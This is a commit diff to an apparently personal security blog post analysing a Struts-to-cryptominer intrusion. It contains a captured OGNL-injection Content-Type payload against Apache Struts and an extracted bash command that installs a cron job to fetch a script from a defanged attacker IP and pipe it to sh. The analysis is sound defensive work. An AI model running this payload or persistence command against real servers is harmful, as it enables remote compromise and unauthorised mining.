

Before and after one commit to num1r0/num1r0.github.io, a Jekyll site: the page built from _posts/2018-07-01-from-apache-struts-to-cryptominer.md, in a window 1280 px wide and 900 px high, scrolled down 772 px. Shown: the whole window, without its empty margins (224-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
extacted bash command added

````diff
--- a/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
+++ b/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
@@ -24,6 +24,13 @@
 User-Agent: Mozilla/5.0
 Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
 X-Forwarded-For: 5.188.10[.]251
+```
+
+The extracted bash command looks like this:
+
+```bash
+echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
+| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
 ```
 
 As you already noticed, the stage 1 of this attack is following next steps:
````
